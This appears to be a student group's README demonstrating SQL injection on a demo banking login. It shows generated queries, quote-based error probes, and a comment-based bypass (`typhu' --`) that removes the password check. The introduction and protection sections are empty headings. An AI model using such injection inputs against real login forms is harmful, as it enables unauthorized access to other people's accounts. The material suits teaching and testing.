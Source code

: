 <p align="center">
  <img src=".github/tittle.svg?sanitize=true" />
</p>

## Members:
- Tran Quang
- Nguyen Hoang Dinh Quy
- Than Hai Nhat Minh
- Nguyen Ty Phu

## Introductions

### What is the SQL Injection?

### How does it effect?

## Demo Attacks

### Log in

```
user: quang
password: demo
```
Log output consule: 
```
>> SELECT user
>>    ,checking
>>    ,savings
>> FROM accounts
>> WHERE "user" = 'typhu' AND "password" = 'demo' LIMIT 1;
```

### Try with the other user

Try with any password testing
```
user: typhu
password: demo
```

### Try with detect error

```
user: typhu
password: demo'
```
### Analysis log output

```sql
SELECT user
    ,checking
    ,savings
FROM accounts
WHERE "user" = 'typhu' AND "password" = 'demo'' LIMIT 1;
```

### Try with detect error

```
user: typhu'
password: demo
```
```sql
SELECT user
    ,checking
    ,savings
FROM accounts
WHERE "user" = 'typhu'' AND "password" = 'demo' LIMIT 1;
```
Add comment
```sql
WHERE "user" = 'typhu' --' AND "password" = 'demo' LIMIT 1;
```

### How to protect your database from SQL Injection
